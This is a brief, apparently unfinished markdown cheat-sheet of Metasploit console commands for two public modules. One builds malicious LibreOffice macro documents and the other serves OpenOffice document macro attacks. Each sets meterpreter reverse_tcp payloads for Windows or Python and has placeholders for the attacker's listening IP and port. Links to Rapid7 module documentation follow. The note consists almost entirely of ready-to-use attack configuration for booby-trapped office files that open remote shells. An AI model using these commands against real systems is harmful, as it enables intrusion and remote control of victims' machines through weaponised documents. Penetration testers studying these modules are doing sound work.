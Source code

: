 # Metasploit

TODO: Fill in the information

## LibreOffice Macro

```
msf > use exploit/multi/fileformat/libreoffice_macro_exec

set filename 
```

## OpenOffice Macro

```
msf > use exploit/multi/misc/openoffice_document_macro

set target 0

set payload windows/x64/meterpreter/reverse_tcp
```

```
set target 1

set payload python/meterpreter/reverse_tcp
```

```
set lhost <IP>

set lport <PORT>
```

---
## References

- [Rapid7: Metasploit Framework Exploit FileFormat LibreOffice Macro Exec](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/fileformat/libreoffice_macro_exec.md)

- [Rapid7: Metasploit Framework Exploit Miscellaneous OpenOffice Macro Exec](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/misc/openoffice_document_macro.md)